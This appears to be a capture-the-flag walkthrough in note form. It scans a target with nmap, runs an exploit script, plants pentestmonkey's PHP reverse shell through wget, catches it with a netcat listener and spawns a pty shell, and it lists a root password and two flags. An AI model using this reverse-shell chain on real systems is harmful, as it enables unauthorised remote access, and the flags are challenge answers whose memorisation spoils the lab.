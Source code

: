 ```bash
sudo nmap 0.0.0.0 -O -sV -sSV -Pn -sC -T4
```

![[Captura desde 2024-10-11 10-37-05.png]]

![[Captura desde 2024-10-11 10-39-17.png]]

![[Captura desde 2024-10-11 10-39-55.png]]

Save the file and execute exploit

```bash
python3 exploit.py -u http://0.0.0.0/
```

![[Captura desde 2024-10-11 10-43-32.png]]

![[Captura desde 2024-10-12 00-52-56.png]]

**flag: `6470e394cbf6dab6a91682cc8585059b`**

`https://pentestmonkey.net/tools/web-shells/php-reverse-shell`

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

download archive change ip address and port 

![[Captura desde 2024-10-12 03-26-19.png]]

Edit `php-reverse-shell.php`

![[Captura desde 2024-10-12 03-29-01.png]]

Run server same folder `php-reverse-shell.php`

```bash
python3 -m http.server 8080 
```

![[Captura desde 2024-10-12 03-35-44.png]]

```bash
wget http://0.0.0.0:8080/php-reverse-shell.php
```

![[Captura desde 2024-10-12 03-50-51.png]]

![[Captura desde 2024-10-12 03-39-59.png]]

Run port lister

```bash
nc -lvnp 9001
```

Open reverse shell with browser 

`http://0.0.0.0/php-reverse-shell.php`

![[Captura desde 2024-10-12 03-53-50.png]]

Get proper terminal 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Captura desde 2024-10-12 03-56-05.png]]

![[Captura desde 2024-10-12 04-01-41.png]]

![[Captura desde 2024-10-12 04-02-40.png]]

![[Captura desde 2024-10-12 04-03-05.png]]

Username: `root`
Password: `mememe`

![[Captura desde 2024-10-12 04-07-02.png]]

**flag: `b9bbcb33e11b80be759c4e844862482d`**